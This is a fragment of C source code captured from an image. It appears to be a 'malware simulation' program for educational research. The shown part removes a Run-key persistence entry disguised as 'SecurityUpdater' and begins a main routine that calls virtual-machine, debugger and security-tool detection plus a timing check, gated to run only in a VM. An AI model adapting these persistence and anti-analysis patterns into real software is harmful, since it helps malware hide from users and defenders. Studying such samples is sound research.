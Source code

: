 ```c
    if (RegOpenKeyExA(HKEY_CURRENT_USER, 
                    "Software\\Microsoft\\Windows\\CurrentVersion\\Run", 
                    0, KEY_SET_VALUE, &hKey) == ERROR_SUCCESS) {
        RegDeleteValueA(hKey, "SecurityUpdater");
        RegCloseKey(hKey);
        log_message("CLEANUP", "Registry persistence removed", TRUE);
        return TRUE;
    } else {
        log_message("ERROR", "Failed to open registry for cleanup", TRUE);
        return FALSE;
    }
}

// ==========================================
// MAIN FUNCTION
// ==========================================

int main(int argc, char* argv[]) {
    char szModuleName[MAX_PATH] = {0};
    
    // Initialize logging
    if (!initialize_logging()) {
        printf("[CRITICAL] Logging initialization failed\n");
        return 1;
    }
    
    // Log basic system information
    SYSTEM_INFO sysInfo;
    GetSystemInfo(&sysInfo);
    
    char sysInfoStr[256];
    sprintf(sysInfoStr, "Processor architecture: %d, Processors: %d", 
           sysInfo.wProcessorArchitecture, sysInfo.dwNumberOfProcessors);
    log_message("SYSTEM", sysInfoStr, TRUE);
    
    // Get current module path
    if (!GetModuleFileNameA(NULL, szModuleName, MAX_PATH)) {
        log_message("ERROR", "Failed to get module path", TRUE);
        close_logging();
        return 1;
    }
    
    log_message("INFO", "Starting malware simulation for educational purposes", TRUE);
    log_message("MODULE", szModuleName, TRUE);
    
    // Perform environment checks
    g_isVirtualEnvironment = detect_virtual_environment();
    BOOL debuggerDetected = check_for_debugger();
    BOOL securityToolsDetected = detect_security_tools();
    
    // TEST: Only proceed if in a VM or if safety override is provided
    if (!g_isVirtualEnvironment && argc < 2) {
        log_message("CRITICAL", "Not running in a virtual environment. Aborting for safety.", TRUE);
        log_message("CRITICAL", "This code should ONLY be run in a controlled VM for research!", TRUE);
        close_logging();
        return 1;
    }
    
    // Perform timing check
    timing_check();
    
```